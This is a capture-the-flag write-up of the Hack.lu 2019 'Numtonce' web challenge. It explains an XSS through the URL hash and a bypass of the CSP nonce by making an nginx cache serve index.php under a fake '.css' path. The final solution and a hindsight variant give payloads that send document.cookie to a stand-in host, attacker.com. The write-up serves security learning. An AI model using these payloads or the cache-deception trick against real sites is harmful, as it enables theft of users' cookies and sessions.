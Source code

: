 ```yaml
---
layout: writeup
title:  "Numtonce"
source: "https://fluxfingersforfuture.fluxfingers.net/challenges/29"
solves: "7/972"
date:   2019-10-27 17:10:05 +0200
event: "Hack.lu 2019"
categories: [writeup]
ctf_categories: [web, XSS, CSP]
author: "Alain K."
image: "website.png"

---
```


## Description
> With all the bad news in the world, everyone needs a calm place to wind down. 
> [We built one](https://numtonce.fluxfingersforfuture.fluxfingers.net/), 
> but you have to help us keep it safe. If you find anything suspicious, 
> [tell the forest ranger](https://numtonce.fluxfingersforfuture.fluxfingers.net/submit/)!
> He might reward you with a cookie :)

![Image of Website](website.png)
## TL;DR
XSS is possible over URL hash. However CSP is set, so no external scripts allowed. Except if nonce tag is correct. Idea is to 
force the nonce tag to be the same after refreshes by loading the website from a cache. js/css/image files are loaded from cache, the index.php file itself not. 
Force index.php file to load from cache by appending a css filename to the url: http://url.com/index.php/blub.css. index.php will still load, 
however the proxy server things it is a css file and loads a cached version of index.php. Hence, we know the nonce in advance and can exceute custom js.

## Complete Writeup
By reading the description, it seems like the goal of the challenge is to steal a cookie from the browser. 
This is usually done by injecting custom javascript into the website (XSS) with a piece of code sending 
the cookie to a server controlled by the attacker. The forest ranger's website is just a text field to subit an URL too. 
A bot will then visit that URL with a cookie set to the flag to capture. Knowing this, the plan of attack:
1. Forge an URL that triggers custom javascript to send the cookie to a server we control
2. Submit the URL to the forest ranger bot
3. Check our server logs for stolen cookie
4. Submit the flag inside the cookie :)

Looking at the website itself, it seems to be very simplistic. It has one single page and the source code is pretty much only this javascript code:
```html
<script nonce="b80a92df721eda620876363536b7e9a6" src="/emojify.min.js"></script>
<script>
    const l=location
      let h=l.hash
      var p=l.hostname
    const s=l.search
      let a=h.split(p)
      var b=a.map((o,O)=>(O^0!==0&&o||'')).map(decodeURIComponent)
    const o0o=b.join(s)
      let script=sessionStorage[a[0]]
      var my=a=>b
    const msg='there is p' in my `t'
˂/script>

<script>
    o0o='nope'
˂/script>

A wise man once said: 'A CSP a day keeps the XSS away.`

<script>
    document.write('<div id="garden">');
    document.write(o0o||'tt t t t fnttttttttt nfst t ttt n t tl t  tnr tmtt dt n  cttttrttntt t tttttnttt   t t nt   tt tt nt  t  t  t'.split('').map(c=>({t:':evergreen_tree:',f:':fallen_leaf:',s:':squirrel:',l:':leaves:',r:':rabbit:',m:':maple_leaf:',d:':droplet:',c:':cherry_blossom:',n:'<br/>',' ':':white_small_square:'}[c])).join(''));
    document.write('</div>');

    emojify.setConfig({ img_dir: '/emojis' });
    emojify.run(garden);
</script>
```
Looking at the code, it is pretty clear that XSS over the URL is possible due to the `document.write(o0o)` line. Backtracing `o0o`, 
one can see that it is generated using the components of the url after the hashtag. Precisely, one can inject code using the following url scheme:
`https://numtonce.fluxfingersforfuture.fluxfingers.net/#numtonce.fluxfingersforfuture.fluxfingers.net<h1>test</h1>`

Next step is to try to embed our javascript code. However, that is where we hit a wall:
![Image of CSP error](csp.png)
A CSP header was set to not allow scripts, except if the nonce tag or the scripts sha256 was correct:

`Content-Security-Policy: default-src 'none'; script-src 'sha256-CRtdY47bt+vWDdsuOTTeizFLvSy49h32pVgpWlyN0TU=' 'nonce-117bc8c1d6ead80e5b6ad3f3eca4921e'; img-src 'self'; style-src 'self'; base-uri 'none'; frame-ancestors 'none'; form-action 'none';`

The nonce is a random token that gets newly generated whenever the site reloads. 
Both options seemed impossible to us (and even the [CSP Evaulator said the header is safe](https://csp-evaluator.withgoogle.com/)), 
so we started to try to understand the rest of the javascript code and even analyze the included `emojify.js`. 
This proved to be completely unnecassary (see *Lessons learned* ). 
The rest of the javascript proved to be distractions only. It even includes a `<script>` tag that is not an actual script tag, 
but a comparison to a javascript variable called script. We spent a lot of time trying to figure out the meaning of all this but it was worthless.

After a while something intersting hit us. The js/css/image files included a strange header in the HTTP response:

`Hit-Or-Miss: i guess they never miss huh?`

This is when we noticed that js/css/iamge files were loaded from a cache. They also had an Age header, which expired after 10 minutes.
Then the idea struck, that if we managed to load the index.php from cache, the token would be the same for 10 minutes! We tried to force loading the index.php by setting some speciel request headers (Cache-Control, etc.). 
However none worked and also the bot to steal the cookie from would not have them set.

As one other header was `Server: nginx`, we looked up how to setup a basic cache on nginx. Basically, a regex filter is applied to the url and if it matches, files get cached.

So we tried to forge an URL that ends with .css but still loads index.php. After some trial and error, we forged the following url: `https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css`.

SUCCESS! The nonce token was always the same and the response had all the caching headers!

Trying out the following we get XSS with an alert ( {nonce} being the CSP nonce token that was in a previous response header):
`https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css#numtonce.fluxfingersforfuture.fluxfingers.net<script nonce="{nonce}">alert(1)</script>`

However trying to send the cookie to our server via ajax or as img src didn't work due to the CSP again. So we used the same trick again and wrote a script tag with the correct nonce:
`document.write('<script nonce="{nonce}" src="https://attacker.com/cookie='+document.cookie+'"></script>');`

In hindsight, a document.location=https://attacker.com/cookie='+document.cookie+' would have worked too.

## Final Solution
`https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css#numtonce.fluxfingersforfuture.fluxfingers.net<script nonce="{nonce}">document.write('<script nonce="{nonce}" src="https://attacker.com/cookie='+document.cookie+'"></script>');</script>`

{nonce} being the CSP nonce token that was in a previous response header with the same URL

## Lessons learned
Check and understand the CSP! We would have saved a looot of time if we understood the CSP correctly straight away. As `default-src` was set to `none`. 
We should have noticed that it is impossible to include any external resource. Meaning that even if we would have found some unsafe javascript code inside the website itself, 
it would still have been impossible to send the cookie to an external server! The only exceptions to be able to contact an external server would be if the nonce of a script tag is correct or the sha256 
of the external script would be correct. As it is impossible to find sha256 collisions, finding a correct nonce is the only possible solution. So no matter what we tried to do,
we sould have noticed from the beginning that we needed to force a valid nonce!

